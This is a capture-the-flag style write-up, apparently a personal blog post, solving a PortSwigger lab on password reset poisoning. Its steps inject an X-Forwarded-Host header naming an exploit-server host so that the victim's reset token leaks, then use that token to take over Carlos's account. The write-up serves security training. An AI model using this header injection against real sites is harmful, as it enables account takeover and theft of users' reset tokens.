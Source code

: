 ```yaml
---
layout: post
title:  "PortSwigger - Authentication - Lab 11"
date:   2024-06-05 18:50
image:  /images/portswigger/WebSecurityAcademy.png
tags:   [authentication,bscp]
categories: [PortSwigger]
---
```


# Lab 11 - Password reset poisoning via middleware
><b>Lab Objective:</b>
<br/><br/>
This lab is vulnerable to password reset poisoning. The user carlos will carelessly click on any links in emails that he receives. To solve the lab, log in to Carlos's account. You can log in to your own account using the following credentials: wiener:peter. Any emails sent to this account can be read via the email client on the exploit server
<br/>
<br/>
<b>Reference:</b>
<br/>
<a href="https://portswigger.net/web-security/authentication/other-mechanisms/lab-password-reset-poisoning-via-middleware">Port Swigger - Lab 11</a>
<br/>

### Solution
<hr/>

#### 1. With Burp running, investigate the password reset functionality. Observe that a link containing a unique reset token is sent via email.

#### 2. Send the `POST /forgot-password` request to Burp Repeater. Notice that the `X-Forwarded-Host` header is supported and you can use it to point the dynamically generated reset link to an arbitrary domain.

#### 3. Go to the exploit server and make a note of your exploit server URL.

#### 4. Go back to the request in Burp Repeater and add the `X-Forwarded-Host` header with your exploit server URL:  `Don't include Http/Https` `X-Forwarded-Host: YOUR-EXPLOIT-SERVER-ID.exploit-server.net`

#### 5. Change the `username` parameter to `carlos` and send the request.

#### 6. Go to the exploit server and open the access log. You should see a `GET /forgot-password` request, which contains the victim's token as a query parameter. Make a note of this token.

#### 7. Go back to your email client and copy the valid password reset link (not the one that points to the exploit server). Paste this into the browser and change the value of the `temp-forgot-password-token` parameter to the value that you stole from the victim.

#### 8. Load this URL and set a new password for Carlos's account.

#### 9. Log in to Carlos's account using the new password to solve the lab.
<hr/>